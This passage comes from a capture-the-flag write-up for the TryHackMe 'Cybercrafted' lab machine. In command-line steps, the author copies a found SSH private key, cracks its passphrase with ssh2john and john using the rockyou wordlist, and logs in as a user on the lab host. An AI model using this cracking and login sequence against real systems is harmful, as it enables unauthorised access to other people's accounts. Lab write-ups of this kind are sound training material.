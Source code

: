 Therefore, I copy the key to my local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ nano id_rsa

┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ chmod 600 id_rsa
```

Then I establish a **ssh** connection to the host:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ ssh [REDACTED]@cybercrafted.thm -i id_rsa
The authenticity of host 'cybercrafted.thm (10.10.145.62)' can't be established.
ED25519 key fingerprint is SHA256:ebA122u0ERUidN6lFg44jNzp3OoM/U4Fi4usT3C7+GM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cybercrafted.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

Oops! It requires the **paraphrase** for the key. To solve this, I use **ssh2john** to generate the hash from the key and crack it into plaintext:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ ssh2john id_rsa > id_rsa_hash

┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ john -w=~/Wordlists/rockyou.txt id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]      (id_rsa)
1g 0:00:00:00 DONE (2023-09-29 11:58) 1.818g/s 3447Kp/s 3447Kc/s 3447KC/s creepygoblin..creek93
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Once again, I re-connect to the target via **ssh** and enter the **passphrase**:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ ssh [REDACTED]@cybercrafted.thm -i id_rsa
Enter passphrase for key 'id_rsa':
[REDACTED]@cybercrafted:~$ id
uid=1001([REDACTED]) gid=1001([REDACTED]) groups=1001([REDACTED]),25565(minecraft)
```

### User 2
